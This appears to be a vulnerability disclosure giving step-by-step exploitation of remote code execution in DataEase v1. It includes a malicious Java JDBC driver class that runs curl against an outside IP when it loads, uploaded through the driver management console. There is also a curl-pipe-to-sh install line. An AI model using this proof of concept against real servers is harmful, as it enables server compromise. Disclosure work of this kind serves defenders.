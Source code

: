 

- Official website : https://dataease.io/

- installation manual : https://community.fit2cloud.com/#/products/dataease/getstarted

- Vulnerable version : v1

- How to Install:

```
curl -sSL https://dataease.oss-cn-hangzhou.aliyuncs.com/quick_start.sh | sh
```

![image-20241219110457770](imgs/DataEase-v1-code-execute/image-20241219110457770.png)

- Vulnerability Exploitation

1. Login Console

2. Enter sequentially `数据源` -> `驱动管理`

![image-20241219110703942](imgs/DataEase-v1-code-execute/image-20241219110703942.png)

3. select `添加驱动`

![image-20241219110914562](imgs/DataEase-v1-code-execute/image-20241219110914562.png)

4.  click`保存`

![image-20241219111033263](imgs/DataEase-v1-code-execute/image-20241219111033263.png)

5.  click`驱动名称-test`, Edit this driver

![image-20241219111242789](imgs/DataEase-v1-code-execute/image-20241219111242789.png)

```java
package com.mysql.jdbc;

public class Driver {
    public Driver(){
        try{
            Runtime.getRuntime().exec("curl http://192.168.1.107:1234/rce");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Driver e = new Driver();
    }
}
```

- Package the above code into a jar file
- Upload jar file And fill in the content in the picture

![image-20241219115024145](imgs/DataEase-v1-code-execute/image-20241219115024145.png)

- Add MySQL data source

![image-20241219115131684](imgs/DataEase-v1-code-execute/image-20241219115131684.png)

- `驱动` Choose the driver we created

![image-20241219115219368](imgs/DataEase-v1-code-execute/image-20241219115219368.png)

- click `保存`

![image-20241219115327424](imgs/DataEase-v1-code-execute/image-20241219115327424.png)

- Successfully received curl request

![image-20241219115420517](imgs/DataEase-v1-code-execute/image-20241219115420517.png)